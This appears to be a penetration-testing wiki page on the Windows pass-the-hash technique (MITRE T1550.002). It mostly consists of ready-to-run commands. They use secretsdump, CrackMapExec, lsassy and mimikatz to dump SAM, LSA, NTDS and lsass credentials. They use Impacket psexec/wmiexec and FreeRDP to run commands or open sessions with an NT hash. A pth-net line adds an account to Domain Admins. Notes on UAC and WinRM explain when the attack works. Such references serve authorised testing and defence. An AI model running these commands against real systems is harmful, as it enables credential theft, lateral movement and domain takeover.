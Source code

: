 # Pass the hash
MITRE ATT&CK™ Sub-technique T1550.002

An attacker knowing a user's NT hash can use it to authenticate over NTLM \(pass-the-hash\) \(or indirectly over Kerberos with [overpass-the-hash](../abusing-kerberos/overpass-the-hash.md)\).

There are many tools that implement pass-the-hash: [Impacket scripts](https://github.com/SecureAuthCorp/impacket) \(Python\) \([psexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py), [smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py), [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)...\), [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) \(Python\), [FreeRDP](https://github.com/FreeRDP/FreeRDP) \(C\), [mimikatz](https://github.com/gentilkiwi/mimikatz) \(C\), [lsassy](https://github.com/Hackndo/lsassy) \(Python\), [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) \(Python\) and more.

The Impacket script [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) has the ability to remotely dump hashes and LSA secrets from a machine \(`LMhash` can be empty\). dumping credentials from registry hives
```bash
secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
secretsdump.py -hashes ':NThash' 'DOMAIN/USER@TARGET'
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'
```

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) \(Python\) has the ability to do it on a set of targets. The `bh_owned` has the ability to set targets as "owned" in [BloodHound](https://github.com/BloodHoundAD/BloodHound). (dumping credentials from registry hives)
```bash
crackmapexec smb $TARGETS -u $USER -H $NThash --sam --local-auth
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --lsa
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --ntds
```

[Lsassy](https://github.com/Hackndo/lsassy) \(Python\) has the ability to do it with higher success probabilities as it offers multiple dumping methods. This tool can set targets as "owned" in [BloodHound](https://github.com/BloodHoundAD/BloodHound). It works in standalone but also as a [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) module \(dumping credentials from lsass process memory).
```bash
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -M lsassy
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -M lsassy -o BLOODHOUND=True NEO4JUSER=neo4j NEO4JPASS=Somepassw0rd
lsassy -u $USER -H $NThash $TARGETS
lsassy -d $DOMAIN -u $USER -H $NThash $TARGETS
```

Some Impacket scripts enable testers to execute commands on target systems with pass-the-hash \(`LMhash` can be empty\).
```bash
psexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
smbexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
wmiexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
atexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
dcomexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
```

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) \(Python\) has the ability to do it on a set of targets
```bash
crackmapexec winrm $TARGETS -d $DOMAIN -u $USER -p $PASSWORD -x whoami
crackmapexec smb $TARGETS --local-auth -u $USER -H $NThash -x whoami
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -x whoami
```

On Windows, [mimikatz](https://github.com/gentilkiwi/mimikatz) \(C\) can pass-the-hash and open an elevated command prompt.
```bash
sekurlsa::pth /user:$USER /domain:$DOMAIN /ntlm:$NThash
```

The [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) \(Python\) can be used from a Linux system to operate LDAP queries, add a user to a group and so on \(`LMhash` can be `ffffffffffffffffffffffffffffffff`\).
```bash
pth-net rpc group members "Domain admins" -U 'Domain/User%LMhash:NThash' -S $DOMAIN_CONTROLLER
pth-net rpc group addmem "Domain admins" Shutdown -U 'Domain/Admin%LMhash:NThash' -S $DOMAIN_CONTROLLER
```

[FreeRDP](https://github.com/FreeRDP/FreeRDP) \(C\) has the ability to do pass-the-hash for opening RDP sessions.
```bash
xfreerdp /u:$USER /d:$DOMAIN /pth:'LMhash:NThash' /v:$TARGET /h:1010 /w:1920
```

**UAC limits pass-the-hash**

UAC \(User Account Control\) limits which local users can do remote administration operations. And since most of the attacks exploiting pass-the-hash rely on remote admin operations, it affects this technique.

* the registry key `LocalAccountTokenFilterPolicy` is set to `0` by default. It means that the built-in local admin account \(RID-500, "Administrator"\) is the only local account allowed to do remote administration tasks. Setting it to `1` allows the other local admins as well.
* the registry key `FilterAdministratorToken` is set to `0` by default. It allows the built-in local admin account \(RID-500, "Administrator"\) to do remote administration tasks. If set to `1`, it doesn't.

In short, by default, only the following accounts can fully take advantage of pass-the-hash:

* **local accounts** : the built-in, RID-500, "Administrator" account
* **domain accounts** : all domain accounts with local admin rights

**WinRM enables pass-the-hash**

Testers should look out for environments with WinRM enabled. During the WinRM configuration, the `Enable-PSRemoting` sets the `LocalAccountTokenFilterPolicy` to `1`, allowing all local accounts with admin privileges to do remote admin tasks, hence allowing those accounts to fully take advantage of pass-the-hash.